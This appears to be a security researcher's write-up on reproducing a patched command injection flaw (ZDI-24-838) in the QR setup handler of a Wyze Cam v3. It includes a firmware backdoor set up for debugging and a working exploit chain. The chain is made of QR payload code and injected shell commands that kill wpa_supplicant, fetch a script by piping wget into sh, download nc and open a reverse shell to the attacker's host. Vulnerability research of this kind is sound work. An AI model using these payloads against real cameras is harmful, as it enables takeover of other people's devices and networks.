




## Quick overview

Rules:
- no AI agents (except for Google Search's AI).
- no patch diffing, to really simulate the 0-day environment.

## Build & environment setup

The first one to do is [ZDI-24-838](https://www.zerodayinitiative.com/advisories/ZDI-24-838/) - command injection in QR code handler.
From [this](https://forums.wyze.com/t/security-advisory/289256), the patched version is 4.36.11.8391

Let's check the version of my camera first. It's the patched version.

Now let's go back to the vulnerable one. Intuitively we should go for 4.36.11.7095, right? 
But there was [a blog showing how to install a backdoor into the camera](https://thao.pw/how-i-physically-backdoored-wyze-camera-v3). We need that to really have a shell on it, to make testing and debugging easier.

Thao used version .4679

I want to use the newest vulnerable version possible. But I have to make sure it's possible to debug.

The main point of the blog is, if `squashfs-root-1/init/factory.sh` contains the line `/tmp/Test/test.sh &`, it's possible to install a backdoor.

Let me check that of .7095, nothing. Seems like for versions after .4679, they remove the backdoor. So I'll just continue with version .4679.

Side note: My binwalk failed multiple times. I don't know why binwalk insists on using `sasquatch`, I just alias `unsquashfs` to `sasquatch` and it works.
### Firmware flashing
Flash normally like in the [instruction](https://support.wyze.com/hc/en-us/articles/360031490871-How-to-flash-your-Wyze-Cam-firmware-manually#Accordion-wyze-cam-v3-2).

Just remember to format the SD card to FAT32 before plugging in, as that's the only format the camera supports.

### Backdoor & GDB

Follow [Thao's instruction](https://thao.pw/how-i-physically-backdoored-wyze-camera-v3).

But I don't understand why it's not starting the camera processes normally.

Okay, because it check if `/tmp/factory` exists, exit and stop there.

I just copy the whole thing into a `start.sh` and run it inside `/tmp/Test/test.sh`.

I also put a sleep 30 seconds before starting the rev-shell.

However, I can't rev shell from the camera into WSL, so I will modify a bit for a bind shell.

Now the camera has the back door of mine, but still start all other services normally. The magic is in `backdoor/Test/test.sh`, which runs `backdoor/door/start.sh`, which run `backdoor/door/bindshell.sh`. These file are in my github repo.

## Exploiting

### ZDI-24-838: Command Injection
This is the easiest one. I've actually looked at it before and found the path. But it's been a long time.

The decompiled code from Ghidra looks so bad, so I switch to IDA Pro.

If it's inside the QR scan handler, it's during the setup. So it doesn't have an internet connection yet ==> Have to setup network before having a revshell ==> Not an easy injection. After a bit of messing around, I can just press "SETUP", and it would let me scan QR again. 

That's really weird. Anyone, at anytime, can just press setup and make the camera theirs. It's a security flaw. 

Intuitively, I think there should be a password in the original box. Then whenever someone press "SETUP", in the QR must have that password inside. The firmware store the hash only. But that leads to rebuilding firmware for each device - a pain for the factory.

sub_43A0 -> net_service_thread. The bug is here, I'm not showing it. It's similar to `'iwlist wlan0 scan | grep "%s"'` with `%s` being the SSID.

That's it to inject, lol:
```
import qrcode
import base64

qr = qrcode.QRCode(error_correction=qrcode.constants.ERROR_CORRECT_H)

ssid = base64.b64encode(b'"\';echo "hello">/media/mmc/hihi;echo \'"').decode()

data = f"b=e2217703bd184c02&s={ssid}&p=ZlFTCAR3am0=&t=7&r=US&ty=1&l=oCY1Krf0"

print(data)

qr.add_data(data)

# Prints the QR code directly into your console/terminal output
qr.print_ascii(invert=True)
```


The file system is readonly. The only folder to be writable and persistant (even after a firmware flash) is `/configs`. But there's no file that contains sensitive information like server or startup commands.

Here's what I've done to successfully attack it. I need to scan 8 QRs (!!), and the whole exploit takes 10 MINUTES.



Now my approach is to try abusing existing scripts in the firmware. After lots of trial-and-error, I managed to reduce it back to 2 QRs. The hard part is, after pressing the button, the camera is disconnect from the wifi, how to connect it back? Leverage the last 4 lines in the script `/system/init/wifi.sh` to reduce the ammount of commands in our QR. 



```python
# in exp.py
payloads = [
    b'"\';echo "cp *m/b*/w* *p;pkill \'wp.*\';tail *m/i*/w*|sh;">tmp/d;#',
    f'"\';A={self.ip};ping $A||sh *p/d;wget -O- $A:{self.http_port}/x|sh;#'.encode(),
]
```

Here we copy `/system/bin/wpa.conf` to `/tmp`, and kill `wpa_supplicant` for that `wifi.sh` to run later. Because we use `wpa.conf`, we have to have our wifi hotspot with that config, SSID = `hualaikeji`, and password = `hualaikeji..`

Since each line may be automatically run multiple times, as the program scans for wifi. I want the connect script at `/tmp/d` only run when it have no internet, hence the `ping $A`.

When it is connected, it's now a simple story, download a script from our machine and run reverse shell.

```sh
# file serve/x
cd /tmp;
if [ ! -f "nc" ]; then wget 192.168.137.1:3636/nc; fi;
chmod +x ./nc;
./nc 192.168.137.1 7272 -e /bin/sh -i;
```



It's fun writing and optimizing the exploit by hand. There are 2 other ZDI bugs for this, but this is enough fun now. I'll be back when I'm bored again.

## Potential future work
Even if the camera didn't have the QR scan command injection bug, its initialization protocol has a critical flaw. 

I think it's a trade-off between security and economy. It allow owners to sell the camera as a second-hand product, and the buyer can initialize and use it easily.

To me, it's a terrible trade-off to be vulnerable to reinitialization attack if an attacker have temporal physical access to the camera.

I looked at the IMOU camera, and it does have a hard reset for this, but it is not as easy. This might be a worthy research direction.

